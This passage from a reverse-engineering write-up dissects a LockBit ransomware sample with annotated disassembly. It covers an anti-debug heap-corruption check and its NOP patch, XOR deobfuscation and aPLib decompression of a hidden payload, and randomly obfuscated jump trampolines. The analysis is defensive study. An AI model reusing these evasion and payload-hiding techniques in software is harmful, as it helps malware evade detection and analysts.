MOV        EAX,dword ptr [EAX + 0x18]    ; Get ProccessHeap pointer to default heap
TEST       dword ptr [EAX + 0x44],0x40000000 ; Check if is active the flag 
                                             ; HEAP_VALIDATE_PARAMETERS_ENABLED
JZ         LAB_0040685a    ; If not active is not debugged skip next instruction
ROR        EAX,0x1         ; If active -> debugged, corrupt default heap with ROR
	LAB_0040685a:
PUSH       dword ptr [EBP + param_1]   ; Pass param_1 (0x1ae),bytes to allocate
PUSH       0x8                         ; Pass 0x8 flag (HEAP_ZERO_MEMORY)
PUSH       EAX                         ; Pass ProccessHeap
CALL       dword ptr [RtlAllocateHeap] ; Returns pointer to allocated data
                                       ; at default process heap
...
RET        0x4
```
.
		So the function checks if it's debugged, corrupting the default heap in case it is. After that, it allocates memory in the default heap of the process initialised to zero and an with allocation size specified by `param_1`, returning a pointer to it returned by the function (`EAX`). 
		The function will be renamed to `allocate_data_processheap_antidbg`:
		<div align="center"></div>
    

---

Once again, with the same methodology, we will substitute the `ROR` with a `NOP` to avoid the anti-debug technique.
<div align="center"></div>

And export it as always.

---

.
	So after allocating 430 bytes (`0x1AE` at `0x424DBB`) in the default heap of the process with the function `allocate_data_processheap_antidbg`, it checks if it is not zero to execute additional logic. With the allocated memory at the process heap, it decodes compressed data that was obfuscated starting from `DAT_00424dbf` and deobfuscates each byte with the mask `0x30`. Then it allocates a secondary data at the main passed heap of `0x35c` size (twice the size of compressed data) with the flag [`HEAP_ZERO_MEMORY`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap), zeroing the allocated data. The deobfuscated compressed content at the process heap is then decompressed into the secondary allocated heap with [`aPLib decompressor`](https://ibsensoftware.com/products_aPLib.html) at the function `some_aplib_decompressor_func()`. After that the decompressed content is code, that later we will look at the code, which for some specific functions of the decompressed code are created some trampolines at new allocated data spots pointing to the decompressed content with a specific offset with the function `create_trampoline_to_secondary_alloc()`. The fist trampoline is created at the offset `0x83` of the decompressed data (`weird_decompressed_payload_mult`), the second trampoline at `0xC4` (`random_data_128bytes_copyp2`) and the last trampoline at `0x19b` (`random_data_p1_64bytes_p2_128bytes`)
```assembly
LEA ESI,[DAT_00424dbf]       ; ESI points to 0x424DBF
PUSH [ESI - 4]               ; Pass previous address with -0x4 (0x424DBB), 0x1ae
CALL       allocate_data_processheap_antidbg ; Returns ptr to alloc data at 
								             ; process heap, plus anti-debug
MOV        EDI,EAX                           ; EDI = ptr to alloc data process heap
TEST       EDI,EDI                           ; check if ptr not null
JZ         LAB_004177f4                      ; end the function if ptr null, failed
PUSH       ESI=>DAT_00424dbf                 ; Pass ESI = 0x63
PUSH       EDI                             ; Pass EDI (ptr alloc data default heap)
MOV        ECX,dword ptr [ESI + -0x4]=>DAT_00424dbb ; ECX = 0x1AE
    LAB_00417773:                                    
LODSB      ESI=>DAT_00424dbf                 ; AL <- *ESI++, read next encoded byte
XOR        AL, 0x30                          ; Deobfuscate byte (AL ^ 0x30)
STOSB      ES:EDI                            ; *EDI++ ← EAX(AL), write decoded byte
DEC        ECX                               ; ECX = ECX - 1
TEST       ECX,ECX                           ; Check ECX (counter 0x1AE)
JNZ        LAB_00417773                      ; Repeat until ECX it's zero
MOV        ESI,dword ptr [ESI + -0x4]=>DAT_00424dbb ; ESI = 0x1AE
PUSH       dword ptr [EBP + param_2]          ; pass param_2
POP        dword ptr [EBP + local_c]          ; store it in local_c param_2, pop it
LEA        EAX,[ESI*0x2 + 0x0]                ; EAX = ESI * 2 (0x35c) 
PUSH       EAX                                ; Pass eax (0x35c), size to alloc
PUSH       0x8                                ; Pass 0x8 flag (HEAP_ZERO_MEMORY)
PUSH       EBX                                ; Pass heap (param_1) where alloc
CALL       dword ptr [EBP + local_c]          ; Call RtlAllocateHeap
MOV        ESI,EAX                            ; ESI = ptr new alloc data secondary
TEST       ESI,ESI                            ; Check ESI
JZ         LAB_004177ee                       ; If ESI fails to alloc skip funcs
PUSH       ESI                                ; Pass ESI (ptr alloc data secondary)
PUSH       EDI                             ; Pass EDI (ptr alloc data process heap)
										   ; with decoded compressed code
CALL       some_aplib_decompressor_func    ; Aplib decompressor, to decompress code
ADD        ESP,0x8                         ; Clean args
LEA        ESI,[ESI + 0x83]            ; Move pointer of alloc data to +0x83 offset
                                       ;  of decompressed code
PUSH       dword ptr [EBP + param_2]       ; Pass RtlAllocateHeap function
PUSH       dword ptr [EBP + param_1]       ; Pass heap handle
PUSH       ESI                            ; Pass ptr decompressed data with offset                                           ; at 0x83
CALL       create_trampoline_to_secondary_alloc ; create trampoline to func at 0x83
                                                ; at the passed heap
MOV        [DAT_0042519c],EAX              ; Store pointer of trampoline
                                           ; (weird_decompressed_payload_mult)
LEA        ESI,[ESI + 0x41]   ; Move pointer of alloc data to +0x41 (+0xC4) offset
PUSH       dword ptr [EBP + param_2]       ; Pass RtlAllocateHeap function
PUSH       dword ptr [EBP + param_1]       ; Pass heap handle
PUSH       ESI                             ; Pass pointer with offset at +0xC4
CALL       create_trampoline_to_secondary_alloc ; create trampoline to func at 0xC4
                                                ; at the passed heap
MOV        [DAT_00425194],EAX              ; Store pointer of trampoline
                                           ; (random_data_128bytes_copyp2)
LEA        ESI,[ESI + 0xd7]   ; Move pointer of alloc data to +0xD7 (+0x19B) offset
PUSH       dword ptr [EBP + param_2]       ; Pass RtlAllocateHeap function
PUSH       dword ptr [EBP + param_1]       ; Pass heap handle
PUSH       ESI                             ; Pass pointer with offset at +0x19B
CALL       create_trampoline_to_secondary_alloc; create trampoline to func at 0x19B
                                               ; at the passed heap
MOV        [DAT_00425198],EAX              ; Store pointer of trampoline
                                           ; (random_data_p1_64bytes_p2_128bytes)
MOV        dword ptr [EBP + local_8],0x1   ; Store success (1)
	LAB_004177ee:
PUSH       EDI                             ; pass EDI (decoded compressed content)
CALL       rtl_freeheap_antidbg_func     ; RtlFreeHeap to free data at default heap
										 ; (decoded compressed content)
	LAB_004177f4:
MOV        EAX,dword ptr [EBP + local_8]  ; Return value success (1) or failure (0)
...
MOV        ESP,EBP
RET        0x8
```
.
	- some_aplib_decompressor_func (FUN_00418c34):
		This function takes byte per byte of `param_3` doing multiple transformations saving the results of each transformation at `param_4`.
		<div align="center"></div>
		<div align="center"></div>
		After a long investigation, it is definitely a decompressor. The most similar one is the [`aPLib decompressor`](https://ibsensoftware.com/products_aPLib.html), because of a few aspects:
			- The secondary allocated data for the compressed data doubles it's size, so there is no transformation, but instead decompression as we get more bytes than we had before the compressed data. Later we will check it with x32dbg.
			- Bit-level logic, backreferences and variable-length encoding which is common on the [`aPLib decompressor`](https://ibsensoftware.com/products_aPLib.html).
```assembly
MOV ESI,dword ptr [ESP + param_3] ; ESI = compressed data pointer
INC ESI                           ; ESI++, advance pointer to next byte
```
.
			- [aPLib decompressor](https://ibsensoftware.com/products_aPLib.html) operates bit-by-bit using a bit tag stream, via shifting (`ADD`) and carry logic (`ADC`).
```assembly
ADD param_2, param_2     ; Shift left param_2 (tag byte), doubles the value
...
ADC EAX, EAX             ; Shift EAX and pull in new carry bit (updates tag state)
```
.
			- Huge similarities in the code, in the file `depackf.asm` of [aPLib decompressor](https://ibsensoftware.com/products_aPLib.html) with the decompiled code.
				1. Start of the code is completely the same. Same operations and memory load.
					Decompiled LockBit code start:
```assembly
...
MOV    param_2,0x80
	LAB_00418c40:         
MOV    AL,byte ptr [ESI]
ADD    ESI,0x1
MOV    byte ptr [EDI],AL
ADD    EDI,0x1
MOV    EBX,0x2
```
.
					`depackf.asm` start:
```assembly
...   
mov    dl, 80h
	literal:
mov    al, [esi]
add    esi, 1
mov    [edi], al
add    edi, 1
mov    ebx, 2
```
.
				2. Near the end of the code uses exacly the same numbers, comparisons and operations.
					Decompiled LockBit code near the end:
```assembly
CMP    EAX,0x7d00       ; 32000
SBB    param_1,-0x1
CMP    EAX,0x500        ; 1280
SBB    param_1,-0x1
CMP    EAX,0x80         ; 128
ADC    param_1,0x0
CMP    EAX,0x80         ; 128
ADC    param_1,0x0

```
.	
					`depackf.asm` code near the end:
```assembly
	normalcodepair:
...
cmp    eax, 32000
sbb    ecx, -1
cmp    eax, 1280
sbb    ecx, -1
cmp    eax, 128
adc    ecx, 0
cmp    eax, 128
adc    ecx, 0
```
.
		The use of this decompressor is to load code dynamically on a hidden way, that has small footprint, in order to operate as less suspicious possible. Because of this, we will rename the function to `some_aplib_decompressor_func()`:
		<div align="center"></div>
	- create_trampoline_to_secondary_alloc (FUN_00417800):
		This function receives as `param_1` a pointer to secondary allocated heap data, as `param_2` the main heap handle, and as `param_3` [`RtlAllocateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap). It's similar to `load_apis_func` when building a trampoline; instead of doing it to an API address, it does it with a passed parameter, a pointer to a secondary allocated data (which was passed at a specific offset). So it creates a hidden access at the main heap, allocating data there, which points to a trampoline to randomly obfuscated or corrupted, or both, address which is reverted with some instructions, because of the executable heap, to the secondary allocated data (with the offset).

| Return | Technique Used            | Description                                                                                                                                                            |
| ------ | ------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `0`    | `ROL` + `JMP EAX`         | Stores a corrupted version of the pointer to secondary alloc data using a left rotation (ROL). Then creates trampoline code to reverse it using `ROR`.                 |
| `1`    | `ROR` + `JMP EAX`         | Stores the pointer to secondary alloc data corrupted with a right rotation (ROR), and generates code to undo it using `ROL`.                                           |
| `2`    | `XOR` + `JMP EAX`         | Obfuscates the pointer to secondary alloc data with XOR against `0x10035FFF`, stores the obfuscated value and the mask, and builds trampoline to deobfuscate and jump. |
| `3`    | `ROL` + `XOR` + `JMP EAX` | First obfuscates the pointer to secondary alloc data with XOR, then corrupts it with a left rotation. Trampoline applies reverse operations: `ROR`, `XOR`, then jump.  |
| `4`    | `ROR` + `XOR` + `JMP EAX` | XOR obfuscation followed by right rotation. Trampoline reverses with `ROL`, `XOR`, then jump.                                                                          |

.
		- 🔢 Return value: `0`
			- **API address modification**:
				`ROL EBX, CL` → API address is corrupted via left rotation by `CL`.
			- **Trampoline generated (written at `EDX`)**:
				`MOV EAX, corupt_api_addr`        ; 0xB8 + 4-byte EBX
				`ROR EAX, CL`                                ; 0xC8C1 + CL
				`JMP EAX`                                       ; 0xFFE0
		- 🔢 Return value: `1`
			- **API address modification**:
				`ROR EBX, CL` → API address is corrupted via right rotation by `CL`.
			- **Trampoline generated (written at `EDX`)**:
				`MOV EAX, corrupt_api_addr`        ; 0xB8 + 4-byte EBX  
				`ROL EAX, CL`                                  ; 0xC0C1 + CL  
				`JMP EAX`                                         ; 0xFFE0  
		- 🔢 Return value: `2`
			- **API address modification**:
				`XOR EBX, 0x10035FFF` → API address is obfuscated using XOR with a fixed mask.
			- **Trampoline generated (written at `EDX`)**:
				`MOV EAX, obfuscated_api_addr`     ; 0xB8 + 4-byte EBX  
				`XOR EAX, 0x10035FFF`                      ; 0x35 + 4-byte mask  
				`JMP EAX`                                            ; 0xFFE0 
		- 🔢 Return value: `3`
			- **API address modification**:
				`XOR EBX, 0x10035FFF` → obfuscate  
				`ROL EBX, CL` → then corrupt via left rotation
			- **Trampoline generated (written at `EDX`)**:
				`MOV EAX, corrupt_obf_api_addr`    ; 0xB8 + 4-byte EBX  
				`ROR EAX, CL`                                      ; 0xC8C1 + CL  
				`XOR EAX, 0x10035FFF`                       ; 0x35 + 4-byte mask  
				`JMP EAX`                                             ; 0xFFE0 
		- 🔢 Return value: `4`
			- **API address modification**:
				`XOR EBX, 0x10035FFF` → obfuscate  
				`ROR EBX, CL` → then corrupt via right rotation
			- **Trampoline generated (written at `EDX`)**:
				`MOV EAX, corrupt_obf_api_addr`     ; 0xB8 + 4-byte EBX  
				`ROL EAX, CL`                                       ; 0xC0C1 + CL  
				`XOR EAX, 0x10035FFF`                        ; 0x35 + 4-byte mask  
				`JMP EAX`                                               ; 0xFFE0  
		
```assembly
MOV        EBX, dword ptr [EBP + param_1]  ; EBX = secondary heap handle (param_1)
PUSH       dword ptr [EBP + param_3]       ; Push address of RtlAllocateHeap
POP        dword ptr [EBP + local_8]       ; Store it in local_8
PUSH       0x10                            ; Pass allocation size = 16 bytes
PUSH       0x0                             ; Flags (None set) 
PUSH       dword ptr [EBP + param_2]       ; Pass heap of main heap (param_2)
CALL       dword ptr [EBP + local_8]   ; Call RtlAllocateHeap → ptr new alloc data

MOV        byte ptr [EAX], 0xB8          ; Store 0xB8 = opcode for "MOV EAX, imm32"
                                         ; at start of ptr allocated data main heap
MOV        EDX, EAX                      ; EDX = ptr to allocated data main heap
PUSH       0x4                             ; Random range max = 4
PUSH       0x0                             ; Random range min = 0
CALL       generate_randnumber_lcg_func    ; Generate rand number ∈ [0,4] -> EAX
TEST       EAX, EAX                        ; Check branch
JNZ        LAB_00417850                    ; If EAX != 0 → jump check next branch

; Branch 0: generate rotated value and encode it
; alloc_ptr = MOV EAX, corrupt_secondary_ptr_data
;             ROR EAX, cl_rotate
;             JMP EAX
PUSH       0x9                             ; Random range max = 9
PUSH       0x1                             ; Random range min = 1
CALL       generate_randnumber_lcg_func    ; Generate rand number ∈ [1,9] -> EAX
MOV        ECX, EAX                        ; ECX = rotation amount
ROL        EBX, CL                         ; EBX = rotate EBX, corrupted ptr to
										   ;  secondary alloc heap, left by CL bits
MOV        [EDX + 0x1], EBX                ; Store EBX, corrupted ptr to secondary
										   ;  alloc heap, at allocated main heap
										   ;  EDX+1
MOV        word ptr [EDX + 0x5], 0xC8C1    ; Store opcode for ROR instruction, 
										   ;  to undo ROL that corrupted ptr to
										   ;  secondary alloc data at main heap 
										   ;  EDX+5
MOV        byte ptr [EDX + 0x7], CL        ; Store rotation count, in order to
										   ;  uncorrupt the ptr to secondary alloc 
										   ;  data at main heap EDX+7
MOV        word ptr [EDX + 0x8], 0xE0FF  ; Store "jmp EAX" at alloc main heap EDX+8
JMP        LAB_004178FD                    ; finish function
	LAB_00417850:
CMP        EAX, 0x1                     ; Check branch
JNZ        LAB_00417879                 ; If EAX != 1 → jump check next branch

; Branch 1: same as 0 but with ROR
; alloc_ptr = MOV EAX, corrupt_secondary_ptr_data
;             ROL EAX, cl_rotate
;             JMP EAX
PUSH       0x9                          ; Random range max = 9
PUSH       0x1                          ; Random range min = 1
CALL       generate_randnumber_lcg_func ; Generate rand number ∈ [1,9] -> EAX
MOV        ECX, EAX                     ; ECX = rotation amount
ROR        EBX, CL                      ; EBX = rotate EBX, corrupted ptr to
										;  secondary alloc heap, right by CL bit
MOV        [EDX + 0x1], EBX             ; Store EBX, corrupted ptr to secondary
									    ;  alloc heap, at allocated main heap
									    ;  EDX+1
MOV        word ptr [EDX + 0x5], 0xC0C1 ; Store opcode for ROL instruction, 
										;  to undo ROR that corrupted ptr to
										;  secondary alloc data at main heap 
									    ;  EDX+5
MOV        byte ptr [EDX + 0x7], CL     ; Store rotation count, in order to
										;  uncorrupt the ptr to secondary alloc 
										;  data at main heap EDX+7
MOV        word ptr [EDX + 0x8], 0xE0FF ; Store "jmp EAX" at alloc main heap EDX+8
JMP        LAB_004178FD                 ; finish function
	LAB_00417879:
CMP        EAX, 0x2                     ; Check branch
JNZ        LAB_00417897                 ; If EAX != 2 → jump check next branch
; Branch 2: XOR address to pointer to secondary alloc data
; alloc_ptr = MOV EAX, obfuscated_secondary_ptr_data
;             XOR EAX, 0x10035FFF
;             JMP EAX
MOV        EAX, 0x10035FFF              ; EAX = mask obfuscate
XOR        EBX, EAX                     ; Obfuscate ptr to secondary alloc data
MOV        [EDX + 0x1], EBX             ; Store EBX, obfuscated ptr to secondary
									    ;  alloc heap, at allocated main heap
									    ;  EDX+1
MOV        byte ptr [EDX + 0x5], 0x35   ; Store XOR EAX at alloc main heap EDX+5,
                                        ;to deobfuscate ptr to secondary alloc data
MOV        [EDX + 0x6], EAX             ; Store mask at alloc main heap EDX+6
MOV        word ptr [EDX + 0xA], 0xE0FF ; Store "jmp EAX" at alloc main heap EDX+8
JMP        LAB_004178FD                 ; finish function
	LAB_00417897:
CMP        EAX, 0x3                     ; Check branch
JNZ        LAB_004178CB                 ; If EAX != 3 → jump check next branch
; Branch 3: XOR + ROL variant
; alloc_ptr = MOV EAX, corrupt_obfuscated_secondary_ptr_data
;             ROR EAX, cl_rotate
;             XOR EAX, 0x10035FFF
;             JMP EAX
PUSH       0x9                          ; Random range max = 9
PUSH       0x1                          ; Random range min = 1
CALL       generate_randnumber_lcg_func ; Generate rand number ∈ [1,9] -> EAX
MOV        ECX, EAX                     ; ECX = rotation amount
MOV        EAX, 0x10035FFF              ; EAX = mask obfuscate
XOR        EBX, EAX                     ; Obfuscate ptr to secondary alloc data
ROL        EBX, CL                      ; EBX = rotate EBX, corrupted obfuscated 
									    ;  ptr to secondary alloc heap, left by CL 
									    ;  bits
MOV        [EDX + 0x1], EBX             ; Store EBX, corrrupted obfuscated ptr to 
									    ;  secondary alloc heap, at allocated main
									    ;  heap EDX+1
MOV        word ptr [EDX + 0x5], 0xC8C1 ; Store opcode for ROR instruction,to undo
										;  ROL that corrupted obfuscated 
										;  ptr to secondary alloc data at main 
									    ;  heap EDX+5
MOV        byte ptr [EDX + 0x7], CL     ; Store rotation count, in order to
										;  uncorrupt the ptr to secondary alloc 
										;  data at main heap EDX+7
MOV        byte ptr [EDX + 0x8], 0x35   ; Store XOR EAX at alloc main heap EDX+8,
                                        ;to deobfuscate ptr to secondary alloc data
MOV        [EDX + 0x9], EAX             ; Store mask at alloc main heap EDX+9
MOV        word ptr [EDX + 0xD], 0xE0FF ; Store "jmp EAX" at alloc main heap EDX+13
JMP        LAB_004178FD                 ; finish function
	LAB_004178CB:
CMP        EAX, 0x4                     ; Check branch
JNZ        LAB_004178FD                 ; If EAX != 3 → jump check next branch

; Branch 4: XOR + ROR variant
; alloc_ptr = MOV EAX, corrupt_obfuscated_secondary_ptr_data
;             ROL EAX, cl_rotate
;             XOR EAX, 0x10035FFF
;             JMP EAX
PUSH       0x9                          ; Random range max = 9
PUSH       0x1                          ; Random range min = 1
CALL       generate_randnumber_lcg_func ; Generate rand number ∈ [1,9] -> EAX
MOV        ECX, EAX                     ; ECX = rotation amount
MOV        EAX, 0x10035FFF              ; EAX = mask obfuscate
XOR        EBX, EAX                     ; Obfuscate ptr to secondary alloc data
ROR        EBX, CL                      ; EBX = rotate EBX, corrupted obfuscated 
									    ;  ptr to secondary alloc heap, left by CL 
									    ;  bits
MOV        [EDX + 0x1], EBX             ; Store EBX, corrrupted obfuscated ptr to 
									    ;  secondary alloc heap, at allocated main
									    ;  heap EDX+1
MOV        word ptr [EDX + 0x5], 0xC0C1 ; Store opcode for ROL instruction,to undo
										;  ROR that corrupted obfuscated 
										;  ptr to secondary alloc data at main 
									    ;  heap EDX+5
MOV        byte ptr [EDX + 0x7], CL     ; Store rotation count, in order to
										;  uncorrupt the ptr to secondary alloc 
										;  data at main heap EDX+7
MOV        byte ptr [EDX + 0x8], 0x35   ; Store XOR EAX at alloc main heap EDX+8,
                                        ;to deobfuscate ptr to secondary alloc data
MOV        [EDX + 0x9], EAX             ; Store mask at alloc main heap EDX+9
MOV        word ptr [EDX + 0xD], 0xE0FF ; Store "jmp EAX" at alloc main heap EDX+13

	LAB_004178FD:
...
MOV        EAX,EDX                ; EAX = EDX, trampoline to pointer to secondary
                                  ;            allocated heap
RET        0xC                    
```
.
		Based on this, the function will be renamed to `create_trampoline_to_secondary_alloc` for more clarity:
		<div align="center"></div>
	With the functions somewhat more clear, the deobfuscation of bits with the mask `0x30`,  into the allocated data at the default heap of the process creates this region of memory, which at first doesn't seem relevant until the decompressor aPLib decompresses it.
	<div align="center"></div>
	After that the function `some_aplib_decompressor_func()` decompresses it into the secondary allocated data in the heap passed as parameter, `param_1`.
	<div align="center"></div>
	Before the first `create_trampoline_to_secondary_alloc()` invoke, at `ESI+0x83` the decompressed data will point at the grey higlighted hexadecimal, which is the common start for a function in assembly.
```assembly
55          PUSH EBP       ; Save old base pointer
8B EC       MOV EBP, ESP   ; Set new base pointer (stack frame setup)
53          PUSH EBX       ; Save EBX register
```
.
	After being invoked, at `DAT_0042519c` will be stored that function to be executed when attempting to invoke `DAT_0042519c`.
	<div align="center"></div>
	In the second `create_trampoline_to_secondary_alloc` invoke, advances the pointer `+0x41` extra, `ESI+0xc4`. Pointing to another function, highlighted in grey the general function setup:
	<div align="center"></div>
	On the third `create_trampoline_to_secondary_alloc()` invoke and the last, it advances the pointer `0xd7` extra, `ESI+0x19b`. Pointing also to another function, highlighted in grey the general function setup, which is slightly different.
```assembly
55          PUSH EBP       ; Save old base pointer  
8B EC       MOV EBP, ESP   ; Set new base pointer (setup stack frame)  
56          PUSH ESI       ; Save ESI register  
```
.
	<div align="center"></div>
	After tracing the movements of the function, we will copy all the decompressed contents into a binary file, `decompressed_payload.bin` with the help of HxD to analyse the code of the decompressed code.
	<div align="center"></div>
	Now we will import the binary to our project to decompile it. Because it's not a proper executable and only code to be executed, Ghidra will not detect automatically which language it is.
	<div align="center"></div>
	We will choose x86 of 32 bits, because it is the architecture with which we are working on. There are multiple compilers, but shouldn't matter whichever you choose.
	<div align="center"></div>
	Analyse it as always.
	<div align="center"></div>
	With that we will see that the code was decompiled successfully.
	<div align="center"></div>
	It comes with five functions:
	<div align="center"></div>
	- FUN_00000000:
		This function is completely the same as we have seen before to generate a random seed, taking into account if it was a virtual machine because it checked if the register `0x40000000` was present, based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/virtualization/hyper-v-on-windows/tlfs/feature-discovery).
		<div align="center"></div>
	- FUN_0000004d:
		A helper function that performs a 32-bit multiplication when both `param_2` and `param_4` are zero, or a full 64-bit multiplication when either is non-zero.
		<div align="center"></div>
	- FUN_00000083:
		This function is the first pointer stored by `create_trampoline_to_secondary_alloc()` at `0x83` of the decompressed data into `DAT_0042519c`.
		<div align="center"></div>
		If we look at the code, it performs weird multiplications, `FUN_0000004d`, with `param_1` and `param_2`, both being 64-bit numbers.
		`iVar1 = param_2.lowpart * 0x4c957f2d + param_2.highpart * 0x5851f42d`
		`iVar1 += 0x14057b7ef767814f`
		`result = param_1.lowpart * iVar1.lowpart + param_1.highpart * iVar1.highpart`
		<div align="center"></div>
		The function seems to retrieve some special value; the global variable `DAT_0042519c` which takes the value of the first invoked `create_trampoline_to_secondary_alloc()` the returned pointer, will be renamed to `weird_decompressed_payload_mult()`.
		<div align="center"></div>
	- FUN_000000c4:
		This function is the second pointer stored by `create_trampoline_to_secondary_alloc()` at `0xc4` of the decompressed data into `DAT_00425194`. 
		It fills `param_1` with 128 bytes of random data, invoking sixteen times the random seed generator, `FUN_00000000`. In the last call, it truncates the high part to 24 bits. Then, it computes an offset using the formula `0x78 * (truncated_seed * 0x8088405 + 1)`,  and stores a copy of the value pointed to by `param_2` at that offset inside `param_1`.
```assembly
...
MOV    EBX,dword ptr [EBP + param_1] ; EBX = param_1
; Fill 15 * 64 bits (120 bytes) with random 64-bit values seed, plus 1 final 
; 64-bit seed at offset 0x78, where only the lower 56 bits are used
; (the high 8 bits of EDX are discarded via AND EDX, 0xFFFFFF)
CALL   FUN_00000000      ; Generate random 64-bit seed
MOV    [EBX], EAX        ; Low part of seed
MOV    [EBX+4], EDX      ; High part of seed
CALL   FUN_00000000     
MOV    [EBX+8], EAX
MOV    [EBX+0xC], EDX
CALL   FUN_00000000
MOV    [EBX+0x10], EAX
MOV    [EBX+0x14], EDX
CALL   FUN_00000000
MOV    [EBX+0x18], EAX
MOV    [EBX+0x1C], EDX
CALL   FUN_00000000
MOV    [EBX+0x20], EAX
MOV    EBX+0x24], EDX
CALL   FUN_00000000
MOV    [EBX+0x28], EAX
MOV    [EBX+0x2C], EDX
CALL   FUN_00000000
MOV    [EBX+0x30], EAX
MOV    [EBX+0x34], EDX
CALL   FUN_00000000
MOV    [EBX+0x38], EAX
MOV    [EBX+0x3C], EDX
CALL   FUN_00000000
MOV    [EBX+0x40], EAX
MOV    [EBX+0x44], EDX
CALL   FUN_00000000
MOV    [EBX+0x48], EAX
MOV    [EBX+0x4C], EDX
CALL   FUN_00000000
MOV    [EBX+0x50], EAX
MOV    [EBX+0x54], EDX
CALL   FUN_00000000
MOV    [EBX+0x58], EAX
MOV    [EBX+0x5C], EDX
CALL   FUN_00000000
MOV    [EBX+0x60], EAX
MOV    [EBX+0x64], EDX
CALL   FUN_00000000
MOV    [EBX+0x68], EAX
MOV    [EBX+0x6C], EDX
CALL   FUN_00000000
MOV    [EBX+0x70], EAX
MOV    [EBX+0x74], EDX
CALL   FUN_00000000        ; In the last seed the high part will be modified
MOV    [EBX+0x78], EAX     ; Store low part of seed
AND    EDX, 0xFFFFFF       ; Keep only lower 24 bits of EDX (high part of seed)
MOV    [EBX+0x7C], EDX     ; Store truncated seed high part
MOV    EAX, 0x78           ; EAX = 0x78
IMUL   EDX, EDX, 0x8088405 ; EDX *= 0x8088405 = truncated seed * 0x8088405
INC    EDX                 ; EDX += 1
MUL    EDX                 ; EAX:EDX= EAX*EDX = 0x78 * (trunc seed * 0x8088405 + 1)
						   ; result goes to EDX:EAX
MOV EAX, [EBP+param_2]     ; EAX = param_2
MOV EAX, [EAX]             ; EAX = *param_2
MOV [EDX + EBX], EAX       ; param_1[EDX] = *param_2
...
RET 0x8
```

.
		The function creates a structure of random data occupying 128 bytes at `param_1`, and at a random offset of `param_1` copies `param_2` content there.  The global variable `DAT_00425194` which takes the value of the second invoked `create_trampoline_to_secondary_alloc` the returned pointer, will be renamed to `random_data_128bytes_copyp2`.
		<div align="center"></div>
    
.
	- FUN_0000019b:
		This function is the third pointer stored by `create_trampoline_to_secondary_alloc` at `0x19b` of the decompressed data into `DAT_00425198`. 
		It fills both `param_1` and `param_2` with the same 64 bytes of random data (eight 64-bit values).  For each 64-bit value written to `param_2`, it also computes a derived 64-bit result by multiplying the high part by `0x8088405`, adding `1`, and then multiplying that with the low part:  
		`result = low_part * (high_part * 0x8088405 + 1)`
		 Each result is stored sequentially after the 64-byte block in `param_2`, using proper offsets to avoid overwriting any of the original random data. Because of that, the size of `param_2` will be 128 bytes.
```assembly
MOV ESI, [EBP + param_1]         ; ESI = param_1
MOV EDI, [EBP + param_2]         ; EDI = param_2
; ----------- First 64-bit block ------------
CALL FUN_00000000                ; Generate random seed
MOV [ESI], EAX                   ; Store low part in param_1
MOV [ESI+4], EDX                 ; Store high part in param_1
MOV [EDI], EAX                   ; Duplicate in param_2
MOV [EDI+4], EDX
IMUL EDX, EDX, 0x8088405     ; EDX = high part * 0x8088405
INC EDX                      ; EDX += 1
MUL EDX                      ; EAX*EDX = low part * (high part * 0x8088405 + 1)
MOV [EDI+0x40], EAX          ; Store result in param 2 at the end of the blocks
MOV [EDI+0x44], EDX
; ----------- Second 64-bit block ------------
CALL FUN_00000000
MOV [ESI+0x8], EAX
MOV [ESI+0xC], EDX
MOV [EDI+0x8], EAX
MOV [EDI+0xC], EDX
IMUL EDX, EDX, 0x8088405
INC EDX
MUL EDX
MOV [EDI+0x48], EAX
MOV [EDI+0x4C], EDX
; ----------- Third 64-bit block ------------
CALL FUN_00000000
MOV [ESI+0x10], EAX
MOV [ESI+0x14], EDX
MOV [EDI+0x10], EAX
MOV [EDI+0x14], EDX
IMUL EDX, EDX, 0x8088405
INC EDX
MUL EDX
MOV [EDI+0x50], EAX
MOV [EDI+0x54], EDX
; ----------- Fourth 64-bit block ------------
CALL FUN_00000000
MOV [ESI+0x18], EAX
MOV [ESI+0x1C], EDX
MOV [EDI+0x18], EAX
MOV [EDI+0x1C], EDX
IMUL EDX, EDX, 0x8088405
INC EDX
MUL EDX
MOV [EDI+0x58], EAX
MOV [EDI+0x5C], EDX
; ----------- Fifth 64-bit block ------------
CALL FUN_00000000
MOV [ESI+0x20], EAX
MOV [ESI+0x24], EDX
MOV [EDI+0x20], EAX
MOV [EDI+0x24], EDX
IMUL EDX, EDX, 0x8088405
INC EDX
MUL EDX
MOV [EDI+0x60], EAX
MOV [EDI+0x64], EDX
; ----------- Sixth 64-bit block ------------
CALL FUN_00000000
MOV [ESI+0x28], EAX
MOV [ESI+0x2C], EDX
MOV [EDI+0x28], EAX
MOV [EDI+0x2C], EDX
IMUL EDX, EDX, 0x8088405
INC EDX
MUL EDX
MOV [EDI+0x68], EAX
MOV [EDI+0x6C], EDX
; ----------- Seventh 64-bit block ------------
CALL FUN_00000000
MOV [ESI+0x30], EAX
MOV [ESI+0x34], EDX
MOV [EDI+0x30], EAX
MOV [EDI+0x34], EDX
IMUL EDX, EDX, 0x8088405
INC EDX
MUL EDX
MOV [EDI+0x70], EAX
MOV [EDI+0x74], EDX
; ----------- Eighth 64-bit block ------------
CALL FUN_00000000
MOV [ESI+0x38], EAX
MOV [ESI+0x3C], EDX
MOV [EDI+0x38], EAX
MOV [EDI+0x3C], EDX
IMUL EDX, EDX, 0x8088405
INC EDX
MUL EDX
MOV [EDI+0x78], EAX
MOV [EDI+0x7C], EDX
...
RET 0x8                         
```
.
		The function generates a structure of random data occupying 64 bytes at `param_1` (eight 64-bit random seeds). It copies these same 64 bytes into `param_2`, and for each 64-bit block, it computes a derived value by performing a specific operation between the high and low parts of the seed. These derived values are appended sequentially after the original seeds, effectively extending `param_2` to 128 bytes. The global variable `DAT_00425198` which takes the value of the third invoked `create_trampoline_to_secondary_alloc` the returned pointer, will be renamed to `random_data_p1_64bytes_p2_128bytes`.
